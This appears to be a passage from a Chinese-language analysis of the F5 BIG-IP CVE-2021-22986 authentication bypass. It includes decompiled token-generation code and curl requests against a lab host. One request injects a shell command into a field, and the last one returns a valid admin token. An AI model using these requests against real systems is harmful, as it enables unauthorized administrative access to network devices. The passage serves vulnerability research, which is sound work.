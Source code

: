 ```
➜  CVE-2021-22986 ✗ curl -ks https://192.168.190.136/mgmt/shared/authn/login -d '{"bigipAuthCookie":"","loginReference":{"link":"http://localhost/mgmt/tm/access/bundle-install-tasks"},"filePath":"`id`"}'
{"code":400,"message":"request failed with null exception","referer":"192.168.190.1","restOperationId":7145511,"kind":":resterrorresponse"}
```

访问该 url(mgmt/tm/access/bundle-install-tasks) 返回的 json 数据会根据字段赋值给 loggedIn(class AuthProviderLoginState) 的各个字段：

![](https://mmbiz.qpic.cn/mmbiz_png/wbFNMtoYNOvjia4pprLWibJ8r5Q5ibFfM11qA5LgDc8FpxzCZ41ydRdBriaL9hGLQOThjBiawqBuKXZrhcBhrYoYEPA/640?wx_fmt=png)

然后就会调用 generateToken 函数，根据函数名以及分析可知该函数可以产生登录时的 token，然后用该 token 即可访问需要认证的资源。所以如果一切正常的话，上述访问应该给我们返回一个 token，但实际上返回的是以下内容：

```
/*     */   public static void generateToken(RestServer server, final RestOperation request, final AuthnWorkerState authState, AuthProviderLoginState loginState) {
/* 516 */     if (authState.needsToken != null && !authState.needsToken.booleanValue()) {
/* 517 */       request.setBody(authState);
/* 518 */       request.complete();
/*     */       
/*     */       return;
/*     */     } 
/* 522 */     AuthTokenItemState token = new AuthTokenItemState();
/* 523 */     token.userName = loginState.username;
/* 524 */     token.user = loginState.userReference;
/* 525 */     token.groupReferences = loginState.groupReferences;
/* 526 */     token.authProviderName = loginState.authProviderName;
/* 527 */     token.address = request.getXForwarderdFor();
......
/* 547 */     RestOperation createToken = RestOperation.create().setUri(UrlHelper.buildLocalUriSafe(server, new String[] { WellKnownPorts.AUTHZ_TOKEN_WORKER_URI_PATH })).setBody(token).setCompletion(tokenCompletion).setReferer("authn-generate-token");  <====
/*     */     
/* 553 */     RestRequestSender.sendPost(createToken);
......
```

```
➜  CVE-2021-22986 ✗ curl -ksu admin:xxx https://192.168.190.136/mgmt/shared/gossip -d '{"userReference":{"link"
:"xxx"}'
{"userReference":{"link":"xxx"}
```

传进去的 state.user 字段是在 generateToken 函数里面进行赋值的：

```
➜  CVE-2021-22986 ✗ curl -ks https://192.168.190.136/mgmt/shared/authn/login -d '{"username":"admin","bigipAuthCooki
e":"","userReference":{"link":""},"loginReference":{"link":"http://localhost/mgmt/shared/gossip"}}'
{"username":"admin","bigipAuthCookie":"","loginReference":
{"link":"http://localhost/mgmt/shared/gossip"},"token":
{"token":"GFCDZ5OHG26QRMFKKETVAV2M6Q","name":"GFCDZ5OHG26QRMFKKETVAV2M6Q","userName":"admin","user":{"link":""},"timeout":1200,"startTime":"2021-03-25T07:51:35.742-0700","address":"192.168.190.1","partition":"
[All]","generation":1,"lastUpdateMicros":1616683895741691,"expirationMicros":1616685095742000,"kind":"shared:authz:tokens:authtokenitemstate","selfLink":"https://localhost/mgmt/shared/authz/tokens/GFCDZ5OHG26QRMFKKETVAV2M6Q"},"generation":0,"lastUpdateMicros":0}
```
